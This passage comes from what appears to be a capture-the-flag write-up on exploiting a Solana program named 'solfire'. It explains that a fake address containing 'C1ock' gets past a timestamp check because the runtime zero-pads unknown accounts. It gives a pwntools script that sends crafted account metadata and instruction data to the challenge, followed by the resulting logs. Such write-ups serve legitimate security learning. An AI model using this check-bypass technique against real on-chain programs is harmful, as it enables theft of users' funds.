 Recall: the first address **must** contain the substring `"C1ock"`. Since `solfire` reads from this address, I originally assumed it was required to be a valid address with properly allocated data. **However, it turns out that the Solana runtime will pad out data for unknown addresses with zeros**, and since a zero will bypass the timestamp check, we don't actually need to do anything special other than pass in a properly encoded b58 address containing the substring `C1ock` (that *isn't* the sysvar address). ie: `C1ock111111111111111111111111111111111111111` will work.

> On the topic of doing a lot of unnecessary work, before I understood this, I wrote a small go program to bruteforce the seed required such that my own program could properly create a program derived address containing the substring `"C1ock"`. It was very naive but would generally complete within a minute or two. *However, this is a post for another time.*

Now, let's modify our script to send in the address metadata and the instruction data:

```python
#metadata
p.sendline("6")
p.sendline(f"r C1ock111111111111111111111111111111111111111")
p.sendline(f"r 11111111111111111111111111111111")
p.sendline(f"w {ledger}")
p.sendline(f"w {vault}")
p.sendline(f"ws {user_pubkey}")
p.sendline(f"r {program_pubkey}")

#instructions
buf= p8(ledgernonce)
p.sendline(str(len(buf)))
p.send(buf)
```

Immediately we notice that our user balance has changed! (Remember, it cost us 1 lamport to create the ledger account using `handle_create`): 

```
$ python3 connect2.py
[+] Opening connection to localhost on port 8080: Done
program: Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da
solve: 5ucYQinyYj8UXusExJPDPYffnccUPZ2JRLg9i9EWPHk7
user: 8ywjtRxY6gBf5dTqKSy8RymafB9oHBVpzRdvoNZFQaUM
ledger: 41La5Ue3q5jLBecFFfC6XGecn8pbiv3tLbGaqkVsr3zK 255
vault: AZTwNNQ6waZVQgBXEmP62DZYpAjU3o9xp2oVftZiA3dU 254
user bal: 9
vault bal: 1000000
```
{:.contains-term}

And if we check our log output, we can verify that `handle_create` was called and it invoked another instruction (`CreateAccount`) on the system account:

```
  Log Messages:
    Program 5ucYQinyYj8UXusExJPDPYffnccUPZ2JRLg9i9EWPHk7 invoke [1]
    Program log: Solfire Basic Invocation
    Program log: Hello!
    Program log: About to call solfire handle_create!
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da invoke [2]
    Program log: Solfire start
    Program log: handle_create
    Program 11111111111111111111111111111111 invoke [3]
    Program 11111111111111111111111111111111 success
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da consumed 44092 of 198625 compute units
    Program Ew7GBvH4DQyPF7SMdV398ymLoDpYLgiHg4TNBWwee6Da success
    Program 5ucYQinyYj8UXusExJPDPYffnccUPZ2JRLg9i9EWPHk7 consumed 45469 of 200000 compute units
    Program 5ucYQinyYj8UXusExJPDPYffnccUPZ2JRLg9i9EWPHk7 success
```
{:.contains-term}
